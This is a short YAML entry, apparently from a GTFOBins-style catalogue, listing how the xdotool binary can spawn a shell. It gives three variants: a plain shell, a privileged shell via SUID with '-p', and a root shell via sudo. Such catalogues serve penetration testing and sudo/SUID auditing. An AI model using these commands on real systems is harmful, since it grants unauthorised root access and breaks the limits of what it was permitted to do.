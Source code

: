 ```yaml
---
functions:
  shell:
    - code: xdotool exec --sync /bin/sh
  suid:
    - code: ./xdotool exec --sync /bin/sh -p
  sudo:
    - code: sudo xdotool exec --sync /bin/sh
---    
```

